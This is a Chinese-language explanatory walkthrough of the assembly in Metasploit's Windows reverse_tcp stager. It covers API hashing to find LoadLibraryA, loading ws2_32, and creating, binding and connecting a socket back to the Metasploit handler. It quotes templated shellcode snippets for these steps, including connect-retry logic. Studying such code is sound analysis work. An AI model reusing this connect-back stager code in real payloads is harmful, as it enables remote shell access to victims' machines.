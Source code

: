 先看一下reverse_tcp的汇编，首先push了几个参数。

在第5行先调用了block_api_hash得到了LoadLibraryA函数的地址，接着将LoadLibraryA函数的地址压入了堆栈，然后调用了asm_block_api函数。

此函数调用LoadLibraryA加载了ws2_32这个dll，为下面使用socket链接metasploit做准备。<br/> 从第9行开始，就是往堆栈中压入了一些参数，接着又调用了WSAStartup函数初始化了网络库。

下面这些汇编主要是压入了一些参数，接着在第15行调用了WSASocketA函数创建了一个套接字，接着把套接字存储到了edi中

```
create_socket: 
    push #{encoded_host} ; host in little-endian format 
    push #{encoded_port} ; family AF_INET and port number 
    mov esi, esp ; save pointer to sockaddr struct 
    push eax ; if we succeed, eax will be zero, push zero for the flags param. 
    push eax ; push null for reserved parameter 
    push eax ; we do not specify a WSAPROTOCOL_INFO structure 
    push eax ; we do not specify a protocol inc eax ; 
    push eax ; push SOCK_STREAM 
    inc eax ; 
    push eax ; push AF_INET 
    push #{Rex::Text.block_api_hash('ws2_32.dll', 'WSASocketA')} 
    call ebp ; WSASocketA( AF_INET, SOCK_STREAM, 0, 0, 0, 0 );//创建了socket，为连接服务器做准备 
    xchg edi, eax ; save the socket for later, don't care about the value of eax after this

```

接着在第7行调用了bind函数，绑定了传入的socket结构体中的ip与端口

```
push #{encoded_bind_port} ; family AF_INET and port number 
mov esi, esp ; save a pointer to sockaddr_in struct 
push #{sockaddr_size} ; length of the sockaddr_in struct (we only set the first 8 bytes, the rest aren't used) 
push esi ; pointer to the sockaddr_in struct 
push edi ; socket 
push #{Rex::Text.block_api_hash('ws2_32.dll', 'bind')} 
call ebp ; bind( s, &amp;sockaddr_in, 16 ); 
push #{encoded_host} ; host in little-endian format 
push #{encoded_port} ; family AF_INET and port number 
mov esi, esp

```

接着又调用了connect函数链接metasploit，如果eax中的值为0那么代表链接成功.

```
push 16 ; length of the sockaddr struct 
push esi ; pointer to the sockaddr struct 
push edi ; the socket 
push #{Rex::Text.block_api_hash('ws2_32.dll', 'connect')} 
call ebp ; connect( s, &amp;sockaddr, 16 ); 
test eax,eax ; non-zero means a failure 
jz connected 
handle_connect_failure: 
    ; decrement our attempt count and try again 
    dec dword [esi+8] 
    jnz try_connect

```
